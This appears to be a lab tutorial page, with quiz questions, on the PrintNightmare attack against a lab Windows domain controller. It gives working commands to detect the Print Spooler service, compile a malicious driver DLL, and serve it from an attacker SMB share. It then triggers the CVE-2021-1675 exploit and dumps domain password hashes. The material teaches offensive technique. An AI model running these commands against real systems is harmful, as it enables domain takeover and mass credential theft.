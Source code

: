 #PrintNightmare Attack

In this attack, the Print Spooler service will be abused. This service used to allow users to upload their own printer drivers to enable easy network printer sharing. A printer driver is a software component that basically acts as a translator between computers and printers. These drivers could be uploaded by users to machines running the Print Spooler service, and the dangerous part is that the Print Spooler service runs as SYSTEM. Meaning that printer drivers are run as SYSTEM as well.

An attacker could then upload mallicious code disguised as a printer driver to a machine running the vulnerable service. 

The Print Spooler service runs on DCs by default. An attacker can then potentially upload a printer driver that creates a new user and adds this user to the local administrators group. And as simple as that, the attacker would then have administrative privileges on the DC itself.

To execute this attack, we can first assess if CAPTAIN provides the Print Spooler service:
```
crackmapexec smb 192.168.122.10 -M spooler
```

Lucky for us, the CAPTAIN DC does provide the vulnerable service. Now, create a file named 'pnightmare.c' inside the 'pnightmare' directory, with the contents seen in [pnightmare.c](../multi-domain-attacks/pnightmare.c). This code will create a user called 'printersplitter' with password 'Passw0rd' and add the user to the local administrators group.

Now, compile the code, start an SMB share so that the DC can retrieve the driver, and finally trigger the DC to retrieve the driver:
```
x86_64-w64-mingw32-gcc -shared -o pnightmare.dll pnightmare.c
sudo -E python3 /home/ubuntu/.local/bin/smbserver.py -smb2support ATTACKERSHARE . & 
#press ENTER
python3 CVE-2021-1675.py north.altair.local/skyler.white:'Password123'@captain.north.altair.local '\\192.168.122.2\ATTACKERSHARE\pnightmare.dll'
```

Now the attacker holds new administrative credentials, and can use them to dump domain user's hashes, for example, compromising every single user account:
```
crackmapexec smb captain.north.altair.local -u printersplitter -p 'Passw0rd' --ntds
```

!!! question
    Which Windows service is being targetted by the PrintNightmare attack?
??? success "Answer"
    The Print Spooler service, namely, the fact that it allowed users to upload arbitrary printer drivers.
!!! question
    Under which security context can attacker code be executed through this attack?
??? success "Answer"
    Through the PrintNightmare attack, an attacker can execute code under the SYSTEM security context.
!!! question
    Which method from the Spooler service does the attacker use to upload this arbitrary driver to the DC?
??? success "Answer"
    RpcAddPrinterDriverEx is abused to make the DC retrieve and install a malicious driver DLL from the attacker’s SMB share.
